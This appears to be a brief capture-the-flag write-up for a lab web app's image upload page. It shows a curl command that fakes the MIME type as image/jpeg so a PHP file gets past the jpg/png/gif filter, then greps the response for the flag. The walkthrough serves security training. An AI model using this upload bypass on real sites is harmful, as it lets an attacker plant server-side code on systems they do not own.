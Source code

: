<!-- curl pour envoyer un fichier -->
# flag10 | image upload

We can see that we have the possibility to upload an image. Let's try to upload a php file.

We can't because it's only accepting jpg, png and gif files.

Let's try with curl to fake the file type and send a php file.

```bash
curl -X POST -F "uploaded=@file.php; type=image/jpeg" -F "Upload=Upload" "http://192.168.56.104/index.php?page=upload" | grep flag
```

